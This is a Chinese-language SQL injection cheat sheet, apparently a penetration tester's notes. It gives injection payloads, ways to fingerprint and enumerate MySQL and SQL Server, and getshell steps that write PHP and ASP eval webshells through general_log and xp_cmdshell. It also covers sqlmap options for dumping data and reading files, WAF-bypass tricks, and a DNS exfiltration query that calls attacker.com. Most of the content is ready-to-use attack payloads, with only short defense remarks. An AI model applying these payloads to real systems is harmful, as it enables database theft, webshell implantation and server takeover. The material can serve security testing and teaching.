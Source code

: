 ## 判断是否有注入
`11'+//AND+//(//SELECT//+2868+//FROM//+(//SELECT//(SLEEP(2)))pcFy)+//AND//+'`

`%0dunion%0aselect%0auser`

## 初步判断数据库类型
`'and user>0`

如果有报错为：在将nvarchar值'dbo'转换成数据类型int时失败，则数据库为sqlserver数据库，不是mysql

## 判断数据库系统
`'and (select count(*) from sysobjects)>0  正常则是Mysql`

`'and (select count(*) from msysobjects)>0 正常则是SqlServer`

+ **;**	Oracle中不支持多行查询，返回错误，很可能是Oracle数据库
+ **#**	是MySQL中的注释符，返回错误说明该注入点可能不是MySQL
+ **–** 和**/**/**是Oracle，SQL server和MSSQL支持的注释符，如果正常，说明可能就是这仨了

## Mysql数据库
### 常用sql语句和函数
#### 查库
`select group_concat(shcema_name) from information_schema.schemata`

#### 查表
`select group_concat(table_name) from information_schema.tables where table_schema=库名`

#### 查列
`select group_concat(column_name) from information_schema.columns where table_name='表明'`

#### 查值
`select group_concat(列名1,';',列名2) from (select * from 库名.表名 limit 0,10) as a`



### GetShell
#### 查看数据库路径
`show variables like '%datadir%'` 通过显示数据库所在的路径来猜测web路径

#### 查看是否开启日志
`show variables like '%general%'`

#### 开启日志
`set global general_log = "ON";`

#### 设置日志路径
`set global general_log_file ='<网站根目录>/config.php';`

#### 写入webshell
`select "<?php @eval($_POST[abc]);?>";`

#### 连接getshell
`https://<web路径>/config.php`

## Sql Server数据库
### 判断是否为sa权限
`;if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:5';--`

### 查看是否开启了xp_cmdshell
`;if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:5'--`

### 开启xp_cmdshell(SA权限用户)
`;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;`

### 执行cmd命令
`;EXEC master..xp_cmdshell 'cmd命令';--`

### 查看是否开启成功（是否出网）
`;EXEC%20master..xp_cmdshell 'ping aa.dnslog';--`

### 写入webshell
`;EXEC%20master..xp_cmdshell 'echo ^<%eval request(chr(35))%^> > C:/inetpub/xxxxxx/a.asp';--`

## sqlmap语法
demo：`sqlmap -r 1.txt --random-agent --tamper=space2comment --level 4 --risk 3 --technique=T --dbms=mysql -p uname --dbs`

+ --random-agent：header头中的agent随机伪造，默认agent是有特征的会被waf拦截
+ --technique：指定探测技术，B 布尔盲注；T 时间盲注；E 报错注入；U 联合查询
+ --batch：自动选择过程中的询问请求
+ --tamper=space2comment：使用脚本绕过waf或过滤，默认脚本放在tamper目录下
+ --level：测试深度，等级1-5。使用5级会使用更多的payload
+ --risk：语句复杂度，等级越高越复杂，一般用3
+ --force-ssl：使用https服务，需要改端口后面加端口
+ --dbms：指定数据库类型
+ --cookie：指定cookie值
+ --is-dba：检测数据库权限。如果DBA是True可以尝试直接拿shell
+ -p：指定测试参数
+ -D：指定数据库名
+ -T：指定表名
+ -C：指定字段名
+ --dbs：获取所有数据库名
+ --userss：获取用户名
+ --tables：获取所有表名
+ --colums：获取字段名
+ --dump：下载当前数据库的所有数据
+ **<font style="color:rgb(68, 68, 68);">--file-read：读取文件</font>**
+ --purge ：清理缓存

## 利用SQL注释与空白符绕过基于正则的SQL注入规则
```sql
SELECT/*!88888cas*/t(1)FROM/**/users WHERE 1=1 UNION%a0SELECT version()
```

**<font style="color:rgb(51, 51, 51);">原理</font>**<font style="color:rgb(63, 63, 63);">：利用SQL注释与空白符干扰词法分析  
</font>**<font style="color:rgb(51, 51, 51);">突破点</font>**<font style="color:rgb(63, 63, 63);">：绕过基于正则的SQL注入规则  
</font>**<font style="color:rgb(51, 51, 51);">防御</font>**<font style="color:rgb(63, 63, 63);">：启用SQL语义分析引擎</font>

## OOB外带数据通道
```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.attacker.com\\test'))
```

**<font style="color:rgb(51, 51, 51);">检测突破</font>**<font style="color:rgb(63, 63, 63);">：基于时间的盲注检测失效  
</font>**<font style="color:rgb(51, 51, 51);">防御</font>**<font style="color:rgb(63, 63, 63);">：限制出站DNS请求</font>

## <font style="color:rgb(51, 51, 51);">XPath盲注载荷生成</font>
```sql
' or count(/*)=1 or 'a'='b
```

**<font style="color:rgb(51, 51, 51);">原理</font>**<font style="color:rgb(63, 63, 63);">：通过节点数量判断结构信息  
</font>**<font style="color:rgb(51, 51, 51);">检测方案</font>**<font style="color:rgb(63, 63, 63);">：XPath查询参数化</font>

